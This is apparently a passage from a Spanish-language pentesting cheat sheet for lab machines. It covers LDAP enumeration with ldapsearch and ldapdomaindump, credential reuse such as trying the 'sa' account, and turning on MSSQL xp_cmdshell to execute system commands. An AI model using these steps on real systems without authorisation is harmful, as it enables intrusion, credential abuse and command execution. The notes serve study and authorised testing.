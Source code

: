 Podemos seguir enumerando:

```shell
ldapsearch -H ldap://<IP> -x -b "DC=<DOMINIO>,DC=<LOCAL,COM etc...>"
```

Si tenemos credenciales, para `ldapsearch`:

```shell
ldapsearch -H ldap://<IP> -D '<USUARIO>@<DOMINIO>' -w '<CONTRASEÑA>' -x -b "DC=<DOMINIO>,DC=<LOCAL,HTB>"
```

Hay que tener en cuenta mirar cada usuario y descripción ya que pueden contener contraseñas.

En caso de tener credenciales válidas podemos hacer uso de `ldapdomaindump`:

```shell
ldapdomaindump -u '<DOMINIO>\<USUARIO>' -p '<CONTRASEÑA>' <IP>
```

Esto generará unos archivos `json, grep, html` que con un servidor web podemos ver en el navegador bien bonitos.

## MSSQL

### Navegación por tablas, bases de datos columnas, etc.

Listar bases de datos:

```sql
select name, database_id from sys.databases;
```

Listar tablas de base de datos:

```sql
SELECT TABLE_NAME FROM <DB>.INFORMATION_SCHEMA.TABLES;
```

Listar el contenido de columnas:

```sql
SELECT * from <DB>.dbo.<TABLA>;
```

> Una cosa importante: por ejemplo, si tienes credenciales `svc_mssql:#mssql_s3rv1c3!` y no funcionan, prueba con el usuario `sa`.

Aquí no solo podemos enumerar bases de datos, o si es vulnerable, SQLi, también podemos llegar a ejecutar comandos con el módulo `xp_cmdshell`:

```sql
xp_cmdshell "whoami"
```

En caso de que no nos deje por que esté deshabilitado, lo podemos habilitar:

```sql
xp_cmdshell "whoami"; SP_CONFIGURE "show advanced options" 1; RECONFIGURE; SP_CONFIGURE "xp_cmdshell", 1; RECONFIGURE
```
